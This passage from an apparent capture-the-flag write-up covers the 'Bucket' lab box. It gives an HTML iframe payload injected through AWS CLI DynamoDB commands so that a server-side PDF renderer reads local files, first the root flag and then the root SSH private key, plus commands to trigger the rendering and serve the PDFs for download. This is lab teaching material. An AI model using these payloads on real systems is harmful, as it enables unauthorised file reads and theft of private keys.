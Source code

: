 This was my payload:

`<html><body><iframe src='file:///root/root.txt'></iframe></body></html>`

I know just reading the flag is not at all interesting. Do not fret for I shall root this box in the end. Only problem was this box cleared everything faster than the speed of light. So I created a script.

```
aws --endpoint-url http://localhost:4566 dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=100,WriteCapacityUnits=100
aws --endpoint-url http://localhost:4566 dynamodb list-tables
aws --endpoint-url http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><body><iframe src='file:///root/root.txt'></iframe></body></html>"}}'
aws --endpoint-url http://localhost:4566 dynamodb scan --table-name alerts
curl -X POST -d"action=get_alerts"  http://localhost:8000
ls /var/www/bucket-app/files
python3 -m http.server 1234
```

Till curl the script does exactly what I just said. After that it just makes a post request to the server, lists out the files in the "files" directory and then finally sets up a python server for me to download those pdfs.

Disclaimer: Do not think that all of this was as easy as I just wrote. This took me a few days. Just because I write about success does not mean I did not face failure.

After I download the pdf I can see the sweet and juicy content.

<img src="/images/bucket/flag.png" width="500">

Now that I have submitted the flag. Lets just destroy this one completely. 

`<html><body><iframe src='file:///root/.ssh/id_rsa'></iframe></body></html>`

<img src="/images/bucket/ssh.png" width="500">
